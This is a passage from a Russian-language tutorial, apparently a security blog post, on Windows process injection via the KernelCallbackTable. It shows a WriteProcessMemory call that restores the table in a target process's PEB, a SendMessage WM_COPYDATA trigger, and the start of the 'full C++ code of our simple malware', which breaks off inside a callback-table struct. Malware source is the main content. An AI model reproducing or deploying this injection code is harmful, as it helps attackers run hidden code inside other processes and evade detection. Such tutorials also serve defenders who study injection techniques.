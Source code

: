 Наконец, восстанавливаем оригинальную `KernelCallbackTable`:    
```cpp
WriteProcessMemory(ph, 
(PBYTE)pbi.PebBaseAddress + offsetof(PEB, KernelCallbackTable), 
&peb.KernelCallbackTable, 
sizeof(ULONG_PTR), NULL);
SendMessage(hw, WM_COPYDATA, (WPARAM)hw, (LPARAM)&cds);
```

Здесь, чтобы восстановить оригинальный код и проверить, нормально ли он восстанавливается, мы снова вызываем `SendMessage()`, чтобы убедиться, что код больше не выполняется.    

Итак, полный C++ код нашего простого вредоносного ПО:

```cpp
/*
 * hack.cpp - process injection via 
 * KernelCallbackTable. C++ implementation
 * @cocomelonc
 * https://cocomelonc.github.io/tutorial/
 2022/01/24/malware-injection-15.html
*/
#include <./ntddk.h>
#include <cstdio>
#include <cstddef>

#pragma comment(lib, "ntdll");

typedef struct _KERNELCALLBACKTABLE_T {
  ULONG_PTR __fnCOPYDATA;
  ULONG_PTR __fnCOPYGLOBALDATA;
  ULONG_PTR __fnDWORD;
  ULONG_PTR __fnNCDESTROY;
  ULONG_PTR __fnDWORDOPTINLPMSG;
  ULONG_PTR __fnINOUTDRAG;
  ULONG_PTR __fnGETTEXTLENGTHS;
  ULONG_PTR __fnINCNTOUTSTRING;
  ULONG_PTR __fnPOUTLPINT;
  ULONG_PTR __fnINLPCOMPAREITEMSTRUCT;
  ULONG_PTR __fnINLPCREATESTRUCT;
  ULONG_PTR __fnINLPDELETEITEMSTRUCT;
  ULONG_PTR __fnINLPDRAWITEMSTRUCT;
  ULONG_PTR __fnPOPTINLPUINT;
  ULONG_PTR __fnPOPTINLPUINT2;
  ULONG_PTR __fnINLPMDICREATESTRUCT;
  ULONG_PTR __fnINOUTLPMEASUREITEMSTRUCT;
  ULONG_PTR __fnINLPWINDOWPOS;
  ULONG_PTR __fnINOUTLPPOINT5;
  ULONG_PTR __fnINOUTLPSCROLLINFO;
  ULONG_PTR __fnINOUTLPRECT;
  ULONG_PTR __fnINOUTNCCALCSIZE;
  ULONG_PTR __fnINOUTLPPOINT5_;
  ULONG_PTR __fnINPAINTCLIPBRD;
  ULONG_PTR __fnINSIZECLIPBRD;
  ULONG_PTR __fnINDESTROYCLIPBRD;
  ULONG_PTR __fnINSTRING;
  ULONG_PTR __fnINSTRINGNULL;
  ULONG_PTR __fnINDEVICECHANGE;
  ULONG_PTR __fnPOWERBROADCAST;
  ULONG_PTR __fnINLPUAHDRAWMENU;
  ULONG_PTR __fnOPTOUTLPDWORDOPTOUTLPDWORD;
  ULONG_PTR __fnOPTOUTLPDWORDOPTOUTLPDWORD_;
  ULONG_PTR __fnOUTDWORDINDWORD;
  ULONG_PTR __fnOUTLPRECT;
  ULONG_PTR __fnOUTSTRING;
```